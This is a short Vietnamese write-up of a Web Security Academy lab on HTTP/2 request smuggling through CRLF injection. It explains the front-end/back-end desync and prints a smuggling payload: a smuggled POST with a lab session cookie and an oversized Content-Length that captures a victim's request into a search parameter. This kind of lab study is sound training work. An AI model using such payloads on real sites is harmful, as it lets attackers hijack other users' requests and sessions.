


# Lab: HTTP/2 request smuggling via CRLF injection

## Detect

Lab này cần chèn CRLF vào header của HTTP/2 để tạo ra request/response khác cách front-end nhìn thấy ban đầu.



## Vì sao có thể khai thác

CRLF injection cho phép biến một giá trị header thành nhiều dòng header hợp lệ ở tầng back-end. Nhờ vậy, front-end tưởng chỉ forward một request bình thường, còn back-end lại nhận thêm phần `Content-Length` hoặc body để smuggle request thứ hai.

## Exploit

Dùng payload sau để trigger request smuggling:

```http
0

POST / HTTP/1.1
Host: 0a1e002303b9334282ac20630016002e.web-security-academy.net
Cookie: session=qFRWRJP73vYPOwPQSkDVYIgU0kyR1Gtf
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

search=hello
```

Khi victim truy cập `/`, back-end sẽ ghép request smuggled vào tham số `search`.

